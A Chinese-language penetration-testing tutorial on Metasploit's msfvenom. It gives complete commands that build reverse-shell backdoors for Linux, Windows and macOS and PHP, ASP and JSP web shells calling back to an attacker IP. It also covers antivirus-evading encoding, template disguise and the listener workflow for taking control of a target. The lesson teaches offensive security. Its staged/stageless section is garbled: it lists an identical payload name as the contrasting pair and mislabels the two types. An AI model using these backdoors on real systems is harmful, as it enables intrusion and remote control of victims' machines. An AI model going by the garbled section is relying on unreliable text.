# 网络安全系统教程：P26：msfvenom介绍和使用 🛠️

在本节课中，我们将要学习Metasploit框架中一个至关重要的工具——`msfvenom`。它是生成有效载荷（Payload）的核心，用于创建后门程序，以便在成功利用漏洞后控制目标系统。我们将了解其基本概念、常用参数，并通过实例演示如何为不同平台生成后门。

## 概述

`msfvenom`是`msfpayload`和`msfencode`两个工具的组合，前者负责生成攻击载荷，后者负责对载荷进行编码以绕过杀毒软件。它支持全平台，能够为Windows、Linux、macOS甚至移动设备和网络设备生成后门。核心攻击思路是：发现漏洞点 -> 使用`msfvenom`生成木马 -> 将木马上传到靶机并运行 -> 在攻击机上开启监听 -> 获得反向连接，从而控制目标。

## msfvenom核心概念与参数

上一节我们概述了`msfvenom`的作用，本节中我们来看看它的核心参数。虽然参数众多，但初学者只需掌握几个最常用的即可。

`msfvenom`的基本命令结构如下：
```bash
msfvenom -p <payload> LHOST=<your_ip> LPORT=<your_port> -f <format> -o <output_file>
```

以下是几个关键参数的解释：

*   **`-p` (`--payload`)**：指定要使用的Payload。这是最重要的参数，决定了后门的功能和适用的系统。
*   **`LHOST`**：指定监听主机的IP地址，即攻击机的IP。
*   **`LPORT`**：指定监听主机的端口号。
*   **`-f` (`--format`)**：指定输出文件的格式（如`exe`, `elf`, `raw`, `php`等）。
*   **`-o` (`--out`)**：指定输出文件的路径和名称。
*   **`-e` (`--encoder`)**：指定编码器，用于对Payload进行编码以规避检测。
*   **`-i`**：设置编码的迭代次数。
*   **`-x`**：指定一个可执行文件作为模板，将Payload嵌入其中，起到伪装作用。
*   **`-l` (`--list`)**：列出所有可用的选项，如`msfvenom -l payloads`列出所有Payload。

关于编码器(`-e`)和迭代次数(`-i`)，需要了解：杀毒软件主要依靠特征码识别病毒。多次编码理论上能改变特征码，但现代杀软能力很强，单纯增加编码次数效果有限，常需结合其他免杀技术。



## 生成各平台后门实例

了解了核心参数后，我们通过具体命令来看看如何为不同操作系统生成后门。

以下是生成三种常见平台反向Shell后门的命令示例：

1.  **生成Linux后门**：
    ```bash
    msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=5555 -f elf -o shell.elf
    ```
    此命令生成一个Linux系统下的ELF格式可执行文件，功能是向攻击机(`192.168.1.100:5555`)发起反向TCP连接，最终获得Meterpreter会话。

2.  **生成Windows后门**：
    ```bash
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=5555 -f exe -o shell.exe
    ```
    此命令生成一个Windows系统下的EXE可执行文件，功能同样是反向TCP连接。

3.  **生成macOS后门**：
    ```bash
    msfvenom -p osx/x86/shell_reverse_tcp LHOST=192.168.1.100 LPORT=5555 -f macho -o shell.macho
    ```
    此命令生成一个macOS系统下的Mach-O可执行文件。





**注意**：在实际操作中，你需要将`LHOST`替换为你攻击机的真实IP地址。对于内网靶机，攻击机IP应为内网IP；若靶机在公网，则可能需要使用公网IP并做好端口转发。







## 后门的使用与监听

生成后门只是第一步，要让其生效，还需要在攻击机上配置监听，并让靶机执行后门程序。

以下是完整的利用流程：

1.  **在攻击机上使用`msfvenom`生成后门**（例如Windows的`shell.exe`）。
2.  **在攻击机上启动Metasploit的监听模块**：
    ```bash
    msf6 > use exploit/multi/handler
    msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
    msf6 exploit(multi/handler) > set LHOST 192.168.1.100
    msf6 exploit(multi/handler) > set LPORT 5555
    msf6 exploit(multi/handler) > run
    ```
    这里设置的`PAYLOAD`、`LHOST`、`LPORT`必须与生成后门时使用的参数完全一致。
3.  **将生成的后门文件`shell.exe`通过某种方式（如文件上传漏洞）上传到靶机**。
4.  **在靶机上运行`shell.exe`**。
5.  **此时，攻击机的监听会话会接收到来自靶机的连接，并建立一个Meterpreter会话**，通过该会话即可控制靶机。











## 生成Web后门





除了可执行文件，`msfvenom`还能生成Web脚本后门，这在存在文件上传漏洞的Web应用中非常有用。





以下是生成Web后门的例子：



1.  **生成PHP后门**：
    ```bash
    msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=5555 -f raw -o shell.php
    ```
    使用`-f raw`（原始格式）输出PHP代码。将此`shell.php`上传到Web服务器可访问目录，然后在攻击机设置监听（Payload设为`php/meterpreter/reverse_tcp`），最后通过浏览器访问该PHP文件即可触发连接。



2.  **生成ASP后门**：
    ```bash
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=5555 -f asp -o shell.asp
    ```



3.  **生成JSP后门**：
    ```bash
    msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.100 LPORT=5555 -f raw -o shell.jsp
    ```



## 分段与不分段Payload

在查找或使用Payload时，你可能会注意到类似`windows/meterpreter/reverse_tcp`和`windows/meterpreter/reverse_tcp`的区别（一个带`_`，一个不带）。这代表了两种不同类型的Payload。



以下是两者的核心区别：

*   **不分段Payload (Staged)**：例如`windows/meterpreter/reverse_tcp`。这种Payload体积较小，只包含建立网络连接的最基本代码。连接建立后，它会从攻击机分段（Stage）下载Meterpreter等更复杂的功能组件。
    *   **优点**：初始文件小，易于上传，不易被基于静态文件的分析检测。
    *   **缺点**：网络不稳定时，分段下载可能失败，导致会话中断。
*   **分段Payload (Stageless)**：例如`windows/meterpreter_reverse_tcp`。这种Payload将所有功能都捆绑在一个完整的二进制文件中。
    *   **优点**：功能完整，执行后立即具备全部能力，网络依赖性低，更稳定。
    *   **缺点**：文件体积大，可能被上传限制拦截，也更容易被杀毒软件静态查杀。

选择哪种取决于具体场景，如网络环境、文件大小限制和防护强度。

## 总结



本节课中我们一起学习了Metasploit的强大载荷生成工具`msfvenom`。我们理解了它是`msfpayload`和`msfencode`的集成，用于生成跨平台的后门程序。我们掌握了其基本语法和关键参数（`-p`, `LHOST`, `LPORT`, `-f`, `-o`），并实践了为Windows、Linux、macOS生成反向Shell后门，以及生成PHP、ASP等Web后门的方法。最后，我们了解了分段(Staged)与不分段(Stageless) Payload的区别及其适用场景。记住核心攻击流程：生成->上传->监听->运行->控制。`msfvenom`是渗透测试中武器化环节的关键工具，需要结合实际情况灵活运用。